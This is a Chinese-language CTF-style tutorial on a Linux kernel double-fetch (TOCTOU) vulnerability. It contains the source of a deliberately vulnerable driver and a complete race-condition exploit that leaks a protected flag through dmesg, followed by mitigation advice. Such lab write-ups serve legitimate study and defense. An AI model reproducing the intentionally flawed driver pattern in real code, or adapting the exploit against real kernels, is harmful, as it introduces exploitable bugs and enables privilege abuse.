



# 【pwn4kernel】Kernel DoubleFetch技术分析

## 1. 测试环境

**测试版本**：Linux-4.15.8 [内核镜像地址](https://github.com/BinRacer/pwn4kernel/blob/master/kernels/4.15.8/01/bzImage)

笔者测试的内核版本是 `Linux (none) 4.15.8 #1 SMP Sat Dec 27 16:56:38 CST 2025 x86_64 GNU/Linux`。

**编译选项**：关闭`CONFIG_SLAB_FREELIST_RANDOM`、`CONFIG_SLAB_FREELIST_HARDENED`、`CONFIG_MEMCG`、`CONFIG_HARDENED_USERCOPY`选项。开启`CONFIG_SLUB`、`CONFIG_SLUB_DEBUG`、`CONFIG_BINFMT_MISC`、`CONFIG_E1000`、`CONFIG_E1000E`选项。完整配置参考[.config](https://github.com/BinRacer/pwn4kernel/blob/master/kernels/4.15.8/01/.config)。

**保护机制**：KASLR/SMEP/KPTI

**测试驱动程序**：笔者基于**0CTF2018Finals - Baby Kernel** 实现了一个专用于辅助测试的内核驱动模块。该模块遵循Linux内核模块架构，在加载后动态创建`/dev/baby`设备节点，从而为用户态的测试程序提供了一个可控的、直接的内核交互通道。该驱动作为构建完整漏洞利用链的核心组件之一，为后续的漏洞验证、利用技术开发以及相关安全分析工作，提供了不可或缺的实验环境与底层系统支撑。

驱动源码如下：

```c
/**
 * Copyright (c) 2026 BinRacer <native.lab@outlook.com>
 *
 * This work is licensed under the terms of the GNU GPL, version 2 or later.
 **/
// code base on 2018 0CTF Finals Baby Kernel
#include <linux/cdev.h>
#include <linux/device.h>
#include <linux/export.h>
#include <linux/fs.h>
#include <linux/gfp.h>
#include <linux/init.h>
#include <linux/module.h>
#include <linux/printk.h>
#include <linux/ptrace.h>
#include <linux/sched.h>
#include <linux/slab.h>
#include <linux/uaccess.h>
#include <linux/version.h>

#define FLAG_PATH "/root/flag"
#define MAX_FLAG_SIZE 0x100

#define BABY_PRINT 0x6666
#define BABY_VERIFY 0x1337

struct flag_t {
	char *addr;
	int len;
};

static unsigned int major;
static struct class *baby_class;
static struct cdev baby_cdev;

static char flag[MAX_FLAG_SIZE] = { 0 };

static int baby_open(struct inode *inode, struct file *filp)
{
	pr_info("[baby:] Device open.\n");
	return 0;
}

static int baby_release(struct inode *inode, struct file *filp)
{
	pr_info("[baby:] Device release.\n");
	return 0;
}

static long baby_ioctl(struct file *file, unsigned int cmd, unsigned long arg)
{
	long ret = 0;
	long is_ok = 0;
	struct flag_t *user_flag = NULL;
	switch (cmd) {
	case BABY_PRINT:
		pr_info("[baby:] Your flag is at %px! "
			"But I don't think you know it's content\n", flag);
		break;
	case BABY_VERIFY:
		is_ok =
		    access_ok(VERIFY_READ, (void __user *)arg, sizeof(size_t));
		if (!is_ok) {
			pr_info("[baby:] Illegal flag_t ptr\n");
			ret = -EFAULT;
			break;
		}
		user_flag = (struct flag_t *)arg;
		is_ok =
		    access_ok(VERIFY_READ, (void __user *)user_flag->addr,
			      sizeof(void *));
		if (!is_ok) {
			pr_info("[baby:] Illegal flag data\n");
			ret = -EFAULT;
			break;
		}
		if (strncmp(flag, user_flag->addr, strlen(flag)) != 0) {
			pr_info("[baby:] Verification failed!\n");
			ret = -EFAULT;
			break;
		}
		pr_info
		    ("[baby:] Looks like the flag is not a secret anymore.\n");
		pr_info("[baby:] So here is it %s\n", flag);
		break;

	default:
		ret = -EINVAL;
	}
	return ret;
}

struct file_operations baby_fops = {
	.owner = THIS_MODULE,
	.open = baby_open,
	.release = baby_release,
	.unlocked_ioctl = baby_ioctl,
};

static int read_flag(void)
{
	struct file *filep;
	loff_t pos = 0;
	ssize_t ret;
	char buf[MAX_FLAG_SIZE] = { 0 };
	pr_info("[baby:] Starting to read flag file.\n");

	filep = filp_open(FLAG_PATH, O_RDONLY, 0);
	if (IS_ERR(filep)) {
		pr_info("[baby:] Failed to open file: %s\n", FLAG_PATH);
		return PTR_ERR(filep);
	}

	ret = kernel_read(filep, buf, MAX_FLAG_SIZE - 1, &pos);
	if (ret < 0) {
		pr_info("[baby:] Failed to read file, error: %zd\n", ret);
		filp_close(filep, NULL);
		return ret;
	}

	buf[ret] = '\0';
	strncpy(flag, buf, MAX_FLAG_SIZE);
	pr_info("[baby:] Flag content read success!\n");

	filp_close(filep, NULL);
	pr_info("[baby:] File closed.\n");
	return 0;
}

static char *baby_devnode(struct device *dev, umode_t *mode)
{
	if (mode)
		*mode = 0666;
	return NULL;
}

static int __init init_baby(void)
{
	struct device *baby_device;
	int error;
	dev_t devt = 0;

	error = alloc_chrdev_region(&devt, 0, 1, "baby");
	if (error < 0) {
		pr_err("[baby:] Can't get major number!\n");
		return error;
	}
	major = MAJOR(devt);
	pr_info("[baby:] baby major number = %d.\n", major);

	baby_class = class_create(THIS_MODULE, "baby_class");
	if (IS_ERR(baby_class)) {
		pr_err("[baby:] Error creating baby class!\n");
		unregister_chrdev_region(MKDEV(major, 0), 1);
		return PTR_ERR(baby_class);
	}
	baby_class->devnode = baby_devnode;

	cdev_init(&baby_cdev, &baby_fops);
	baby_cdev.owner = THIS_MODULE;
	cdev_add(&baby_cdev, devt, 1);
	baby_device = device_create(baby_class, NULL, devt, NULL, "baby");
	if (IS_ERR(baby_device)) {
		pr_err("[baby:] Error creating baby device!\n");
		class_destroy(baby_class);
		unregister_chrdev_region(devt, 1);
		return -1;
	}
	pr_info("[baby:] baby module loaded.\n");

	read_flag();
	return 0;
}

static void __exit exit_baby(void)
{
	unregister_chrdev_region(MKDEV(major, 0), 1);
	device_destroy(baby_class, MKDEV(major, 0));
	cdev_del(&baby_cdev);
	class_destroy(baby_class);
	pr_info("[baby:] baby module unloaded.\n");
}

module_init(init_baby);
module_exit(exit_baby);
MODULE_AUTHOR("BinRacer");
MODULE_LICENSE("GPL v2");
MODULE_DESCRIPTION("Welcome to the pwn4kernel challenge!");
```

## 2. 漏洞机制

### 2-1. 模块功能概述

该内核模块在初始化阶段（`init_baby` 函数）将敏感信息（`/root/flag` 文件内容）加载到一个全局静态数组（`flag`）中，此举避免了通过简单静态分析（如 `strings` 命令）直接提取数据。模块通过文件操作接口提供了三个函数：`baby_open`、`baby_release` 与 `baby_ioctl`。其中，`baby_open` 和 `baby_release` 仅作为占位符，未实现实质功能。核心逻辑集中在 `baby_ioctl` 处理函数中，该函数响应两个控制命令：`BABY_PRINT` 与 `BABY_VERIFY`。

`BABY_PRINT` 命令的作用是将全局 `flag` 数组的内核地址输出到内核日志缓冲区（dmesg）。`BABY_VERIFY` 命令用于验证用户提供的数据，其参数为用户空间指针 `arg`，指向一个 `struct flag_t` 结构体：

```c
struct flag_t {
    char *addr; // 指向用户空间缓冲区的指针
    int len;    // 缓冲区长度
};
```

该命令的执行流程如下：

1.  调用 `access_ok(VERIFY_READ, (void __user *)arg, sizeof(size_t))` 验证用户传入的结构体指针 `arg` 本身是否可读。
2.  从用户空间获取 `struct flag_t` 实例后，调用 `access_ok(VERIFY_READ, (void __user *)user_flag->addr, sizeof(void *))` 验证结构体成员 `addr` 所指向的用户空间缓冲区地址是否可读。
3.  若上述校验均通过，则调用 `strncmp(flag, user_flag->addr, strlen(flag))` 比较内核 `flag` 数据与用户缓冲区数据。若两者一致，便将 `flag` 数据内容输出至内核日志。

直接使用 `BABY_PRINT` 泄露的内核地址作为 `user_flag->addr` 进行 `BABY_VERIFY` 调用将失败，因为该内核地址无法通过第二次 `access_ok` 对用户空间地址的合法性校验。

### 2-2. 核心漏洞：Double Fetch 条件

该模块的关键问题在于其实现中未引入任何锁机制或同步原语，导致 `BABY_VERIFY` 命令的执行路径存在典型的 **Double Fetch** 缺陷模式。Double Fetch 泛指内核代码在单次系统调用处理过程中，多次读取同一用户空间内存区域的数据。当两次读取之间存在时间窗口，且用户空间数据在此窗口内被并发修改时，内核基于过时或不一致的副本所做的安全决策将失效，进而可能引发安全边界被绕过。

**Double Fetch 原理**：
下图抽象地展示了内核代码在存在Double Fetch缺陷时的典型执行流程与数据状态变化。其核心问题在于两次独立的获取操作之间缺乏原子性保护，使得安全检查的对象与实际操作的对象可能不一致。



**流程解析**：

1.  **初始调用阶段**（深蓝色框）：用户空间发起系统调用，进入内核处理流程。
2.  **第一次数据获取与安全检查**（蓝色系框）：内核代码**第一次**从用户空间读取指针值 `P_user`，并基于此值执行安全检查（例如 `access_ok`）。此阶段内核的决策完全基于 `P_user` 这个初始快照。
3.  **安全决策点**（绿色框）：检查结果产生分支。若检查失败，流程终止；若检查通过，则进入危险的时间窗口。
4.  **关键竞争窗口**（橙色/黄色框）：在安全检查通过后，到内核**第二次**读取并使用该数据之前，存在一个时间窗口。此即 Time-Of-Check-Time-Of-Use (TOCTOU) 竞争条件发生的窗口。在此期间，用户空间的原始数据（指针值）可以被同一进程的其他线程并发修改，例如从 `P_user` 改为 `P_kernel`。
5.  **第二次数据获取与实际操作**（蓝色系框）：内核代码**第二次**读取用户空间的指针值。由于数据在窗口中可能已被修改，此次读取到的值可能已变为 `P_kernel`。随后，内核使用这个新值（`P_kernel`）执行实际操作（如解引用、比较）。
6.  **逻辑不一致状态**（红色框）：最终状态是危险的逻辑不一致。安全机制检查的对象是第一次读取的 `P_user`，而实际操作的对象是第二次读取的 `P_kernel`。若 `P_kernel` 与 `P_user` 性质不同（例如从用户地址变为内核地址），则安全机制被完全绕过。

### 2-3. 模块中的Double Fetch实例分析

在本模块的 `BABY_VERIFY` 命令处理流程中，Double Fetch 具体体现在对 `user_flag->addr` 这个用户空间指针的访问上。下图通过精简的序列图清晰地展示了两个用户态线程与内核处理函数之间的交互时序与竞态关系：



**步骤与后果分析**：

1.  **初始状态与请求**：用户态线程1准备一个 `struct flag_t` 结构体 `user_flag`，其 `addr` 成员指向一个合法的、内容正确的用户空间缓冲区（地址 **A**），并发起 `BABY_VERIFY` 调用。

2.  **第一次Fetch与合法校验**：内核的 `baby_ioctl` 处理函数第一次从用户空间读取 `user_flag.addr`，得到值 **A**。随后调用 `access_ok(VERIFY_READ, A)` 进行检查。此时检查的对象是用户空间地址 **A**，校验通过。

3.  **竞争窗口内的数据变更**：在校验通过后，内核代码在调用 `strncmp` 进行实际比较之前，存在一个可观测的时间窗口。与此同时，用户态线程2（或T1自身在另一个CPU核心上）将共享的用户空间变量 `user_flag.addr` 的值修改为之前通过 `BABY_PRINT` 命令获取到的内核地址 **K**（即 `flag` 数组的地址）。

4.  **第二次Fetch与校验绕过**：内核执行流进行到 `strncmp(flag, user_flag->addr, ...)` 时，**第二次**去获取 `user_flag->addr` 的值以进行解引用。此时读取到的是已被修改的内核地址 **K**。`strncmp` 将内核中的 `flag` 与地址 **K** 所指向的内容（即 `flag` 自身）进行比较，结果必然相等。

5.  **非预期操作与信息泄露**：上述比较的“成功”使得内核误认为用户提供了正确的验证数据，从而执行了后续本应受保护的操作——将 `flag` 数组中的敏感内容输出到内核日志，导致信息泄露。

### 2-4. 漏洞总结

此漏洞是内核态与用户态数据交互中一个经典的同步缺陷案例。其根源在于内核代码在处理来自用户空间的、可能被并发修改的数据时，未能保证 **“验证时”（Time-Of-Check）** 与 **“使用时”（Time-Of-Use）** 数据视图的一致性。`BABY_VERIFY` 的实现违背了“一旦验证，立即使用同一副本”的安全编程原则，反而采用了“验证一次，稍后使用另一次读取结果”的危险模式。通过利用两次数据获取（Double Fetch）之间的竞争窗口，可以使得内核将安全检查（针对一个合法的用户地址 **A**）与实际操作（使用一个被篡改后的内核地址 **K**）应用于不同的数据对象，从而完全绕过了 `access_ok` 等安全机制所构筑的边界，最终触发非预期的内核敏感信息泄露。该漏洞模式凸显了在内核开发中，对用户空间指针等可变数据实施原子性访问控制的重要性。

## 3. 实战演练

exploit核心代码如下：

```c
struct flag_t {
  char *addr;
  int len;
};

pthread_t race_thread;
void *flag_kaddr;
char fake_flag[0x100] = "flag{evil_flag!}";
int race_times = 0x1000;
int flag_not_found = 1;
struct flag_t flag = {
    .addr = fake_flag,
    .len = 0x100,
};

void baby_print(int fd) { ioctl(fd, 0x6666); }

void baby_verify(int fd, struct flag_t *arg) { ioctl(fd, 0x1337, arg); }

void *race_thread_fn(void *args) {
  while (flag_not_found) {
    for (int i = 0; i < race_times; i++) {
      flag.addr = flag_kaddr;
    }
  }
  return NULL;
}

int main() {
  int fd, result_fd, addr_fd, flag_fd;
  char *tmp_buf, *flag_addr_addr, *flag_addr;

  fd = open("/dev/baby", O_RDWR);
  if (fd < 0) {
    log.error("open /dev/baby failed!");
    exit(-1);
  }

  baby_print(fd);
  system("dmesg | grep flag > /tmp/addr.txt");
  tmp_buf = (char *)malloc(0x1000);
  addr_fd = open("/tmp/addr.txt", O_RDONLY);
  if (addr_fd < 0) {
    log.error("open /tmp/addr.txt failed!");
    exit(-1);
  }

  tmp_buf[read(addr_fd, tmp_buf, 0x1000)] = '\0';
  flag_addr_addr =
      strstr(tmp_buf, "Your flag is at ") + strlen("Your flag is at ");
  flag_kaddr =
      (void *)strtoull(flag_addr_addr, (void *)(flag_addr_addr + 16), 16);
  log.success("flag addr: %p", flag_kaddr);

  pthread_create(&race_thread, NULL, race_thread_fn, NULL);

  while (flag_not_found) {
    for (int i = 0; i < race_times; i++) {
      flag.addr = fake_flag;
      baby_verify(fd, &flag);
    }

    system("dmesg | grep flag > /tmp/result.txt");
    result_fd = open("/tmp/result.txt", O_RDONLY);
    if (result_fd < 0) {
      log.error("open /tmp/result.txt failed!");
      exit(-1);
    }
    read(result_fd, tmp_buf, 0x1000);
    if (strstr(tmp_buf, "flag{")) {
      flag_not_found = 0;
    }
  }

  pthread_cancel(race_thread);

  log.success("race done and flag got!");
  system("dmesg | grep -i \"flag{\" | head -n 1 > /tmp/flag.txt");
  flag_fd = open("/tmp/flag.txt", O_RDONLY);
  if (flag_fd < 0) {
    log.error("open /tmp/flag.txt failed!");
    exit(-1);
  }
  tmp_buf[read(flag_fd, tmp_buf, 0x1000)] = '\0';
  flag_addr = strstr(tmp_buf, "So here is it ") + strlen("So here is it ");
  log.success("Got flag: %s", flag_addr);
  return 0;
}
```

### 3-1. 利用思路概述

基于前文分析的Double Fetch漏洞原理，本部分展示一个概念验证（Proof of Concept, PoC）实现，该实现旨在通过构造精确的竞争条件，诱导内核在`BABY_VERIFY`命令的执行过程中，其安全检查阶段与实际数据使用阶段操作的数据对象发生分离，从而绕过安全机制，最终触发敏感信息（`flag`）的非预期泄露。整个利用过程不涉及对内核代码的恶意篡改，而是通过合法接口的非常规并发使用，揭示了模块自身同步缺陷导致的安全风险。下图展示了完整的利用流程架构：



### 3-2. 数据结构与核心变量

利用程序定义了两个关键数据结构与若干控制变量，为后续的竞争操作奠定基础：

```c
struct flag_t {
  char *addr;  // 指向缓冲区的指针
  int len;     // 缓冲区长度
};
```

- **`struct flag_t`**：与内核模块完全对应的用户空间结构体，用于在`BABY_VERIFY`命令中传递参数。其中`addr`成员是指向待比较数据缓冲区的指针，这是后续竞争操作的核心目标。

```c
struct flag_t flag = {
    .addr = fake_flag,
    .len = 0x100,
};
```

- **全局`flag`结构体实例**：在用户空间创建的结构体实例。其`addr`成员初始指向用户空间缓冲区`fake_flag`，该缓冲区包含与内核`flag`预期内容相匹配的伪造数据。此结构体被主线程和竞争线程共享访问，是竞态操作的共享资源。

```c
pthread_t race_thread;      // 竞争线程句柄
void *flag_kaddr;           // 保存从内核泄露的flag地址
char fake_flag[0x100] = "flag{evil_flag!}";  // 伪造的flag内容
int race_times = 0x1000;    // 竞争循环次数，用于增加命中概率
int flag_not_found = 1;     // 竞争成功标志
```

- **控制变量**：
    - `race_thread`：竞争线程的标识符，用于线程管理。
    - `flag_kaddr`：存储通过`BABY_PRINT`命令获取的内核`flag`数组地址，这是竞争成功后需要让内核使用的地址。
    - `fake_flag`：用户空间缓冲区，包含与内核`flag`匹配的伪造内容，用于通过`access_ok`校验。
    - `race_times`：竞争循环次数，通过高频尝试增加在短暂时间窗口内命中竞争条件的概率。
    - `flag_not_found`：标志变量，控制竞争线程的持续运行与退出。

### 3-3. 详细利用步骤分析

**步骤1：环境初始化与信息搜集**

利用程序首先通过标准文件操作打开目标内核模块创建的设备文件：

```c
fd = open("/dev/baby", O_RDWR);
```

获取有效的文件描述符`fd`后，程序立即调用`baby_print`函数触发`BABY_PRINT`命令：

```c
void baby_print(int fd) { ioctl(fd, 0x6666); }
```

该命令使内核将全局`flag`数组的虚拟地址输出到内核环形缓冲区（dmesg）。随后，程序通过执行shell命令`dmesg | grep flag`提取相关日志，并使用字符串处理函数解析出`flag`的确切内核虚拟地址，保存于`flag_kaddr`变量。这一步骤是后续所有操作的基础，获取目标内核地址是关键前提。

**步骤2：竞争线程的创建与运作策略**

程序创建一个独立的POSIX线程作为竞争线程：

```c
pthread_create(&race_thread, NULL, race_thread_fn, NULL);
```

竞争线程的执行函数`race_thread_fn`设计为一个紧凑的高频修改循环：

```c
void *race_thread_fn(void *args) {
  while (flag_not_found) {
    for (int i = 0; i < race_times; i++) {
      flag.addr = flag_kaddr; // 原子性修改：用户地址 → 内核地址
    }
  }
  return NULL;
}
```

该线程的唯一任务是在`flag_not_found`为真时，以极高频率（每次循环`race_times`次）将共享结构体`flag`的`addr`成员修改为内核地址`flag_kaddr`。这种设计基于概率统计原理：通过增加单位时间内的修改次数，显著提高在内核两次读取之间的时间窗口内成功修改指针值的概率。线程间同步通过简单的忙等待和标志变量实现，避免了复杂锁机制可能引入的额外延迟。

**步骤3：主线程发起验证与竞争窗口构造**

主线程在一个独立的循环中执行验证操作：

```c
while (flag_not_found) {
  for (int i = 0; i < race_times; i++) {
    flag.addr = fake_flag; // 重置为合法用户地址
    baby_verify(fd, &flag);
  }
  // 结果检测逻辑
}
```

每次迭代中，主线程首先将`flag.addr`重置为指向用户空间缓冲区`fake_flag`的合法地址，随后立即调用`baby_verify`函数触发`BABY_VERIFY`命令。此时内核处理流程开始，关键的TOCTOU（Time-Of-Check-Time-Of-Use）时机出现：

1.  **第一次Fetch与安全检查**：内核读取`user_flag->addr`，得到用户空间地址（指向`fake_flag`）。执行`access_ok(VERIFY_READ, addr)`检查，由于此时`addr`是有效的用户空间地址，检查**通过**。

2.  **竞争窗口**：在安全检查通过后，内核需要再次获取`addr`的值以执行`strncmp`比较。从第一次Fetch完成到第二次Fetch开始的这段时间，构成了竞争窗口。

3.  **并发修改**：与此同时，竞争线程持续高频修改`flag.addr`的值为内核地址`flag_kaddr`。目标是在上述竞争窗口内完成修改，使得内核第二次Fetch获取到的是已被篡改的内核地址。

4.  **第二次Fetch与逻辑绕过**：如果竞争成功，内核第二次读取`addr`时获取到的是内核地址`flag_kaddr`。随后`strncmp(flag, user_flag->addr, strlen(flag))`实际执行的是`strncmp(flag, *(flag_kaddr), strlen(flag))`，即比较内核`flag`与其自身，结果必然相等。

**步骤4：竞争成功检测与信息提取机制**

每次主线程完成一组（`race_times`次）验证尝试后，程序执行结果检测：

```c
system("dmesg | grep flag > /tmp/result.txt");
result_fd = open("/tmp/result.txt", O_RDONLY);
read(result_fd, tmp_buf, 0x1000);
if (strstr(tmp_buf, "flag{")) {
  flag_not_found = 0;
}
```

通过再次读取dmesg并搜索包含`flag{`的字符串，判断是否触发了内核中打印真实`flag`的代码路径。如果检测到敏感信息泄露，程序将`flag_not_found`置零，这会使得竞争线程退出循环。

**步骤5：资源清理与信息输出**

竞争成功后，程序进行资源清理：

```c
pthread_cancel(race_thread);
```

并最终从dmesg中提取完整的`flag`内容输出给用户，完成整个利用过程。

### 3-4. 关键技术原理分析

1.  **TOCTOU竞争条件利用**：本漏洞本质是TOCTOU（检查时与使用时）竞争条件的典型案例。利用程序精确地构造了时间竞争，使得内核在安全检查时看到的是合法数据（用户地址），而在实际使用时看到的是被篡改的数据（内核地址）。这种时间差利用方式利用了内核在处理用户空间数据时缺乏原子性操作的缺陷。

2.  **共享内存无锁并发**：利用程序通过两个线程无锁地并发访问同一块用户空间内存（`struct flag_t`实例）。由于内核模块内部没有对用户数据加锁或创建副本，这种并发修改对内核的两次Fetch是可见的。无锁访问减少了竞争延迟，增加了命中概率，但也可能导致数据竞争的不确定性。

3.  **概率增强策略**：通过设置`race_times`参数（0x1000 = 4096次），程序实现了概率增强。每次系统调用尝试都伴随着高频的指针切换，这显著增加了在内核短暂竞争窗口内命中目标状态的数学期望。这是一种经典的基于统计的竞争利用方法。

4.  **用户/内核空间边界混淆**：利用的核心是通过时间竞争，将本应保持隔离的用户空间和内核空间地址进行混淆。`access_ok`校验保证了用户地址的合法性，但竞争使得实际操作使用了内核地址，从而绕过了安全边界检查。这种混淆利用了内核地址空间布局的知识和对模块内部行为的理解。

5.  **异步检测机制**：利用程序采用异步检测策略，不依赖于系统调用的直接返回值，而是通过监控内核日志输出判断竞争是否成功。这种间接检测方法更加鲁棒，能够应对竞争成功但系统调用可能因其他原因返回错误的情况。

### 3-5. 防御视角与安全启示

从防御角度分析，此漏洞的根本原因在于内核模块在处理不可信的用户空间数据时，未能保证操作的原子性和数据视图的一致性。有效的防御措施包括：

1.  **数据复制策略**：在验证用户数据合法性后，应立即将数据复制到内核空间的安全区域，后续所有操作都基于这个副本进行，避免再次访问可能被修改的用户空间数据。

2.  **锁机制保护**：对涉及多次访问的用户空间数据结构，可以使用锁机制确保在操作期间数据的稳定性。但需注意性能开销和死锁风险。

3.  **原子性操作**：设计接口时尽量保证对每个用户空间数据的访问是原子的，避免同一数据在单个系统调用中被多次获取。

4.  **静态代码分析**：通过静态分析工具检测可能存在Double Fetch模式的代码模式，提前发现潜在漏洞。

此概念验证代码仅用于安全研究与教育目的，揭示了同步缺陷在系统安全中的重要性，并强调了在内核驱动开发中，对来自用户空间的数据进行原子性访问或复制的重要性，以避免此类TOCTOU风险。通过理解此类漏洞的成因与利用方法，开发者可以更好地设计安全的系统接口，而安全研究人员可以更有效地识别和验证类似的安全问题。

## 4. 测试结果

<div style="text-align: center; margin: 2rem 0;">
  
</div>

## 参考

https://github.com/BinRacer/pwn4kernel/tree/master/src/DoubleFetch
https://arttnba3.cn/2021/03/03/PWN-0X00-LINUX-KERNEL-PWN-PART-I/#例题：0CTF2018-Final-baby-kernel
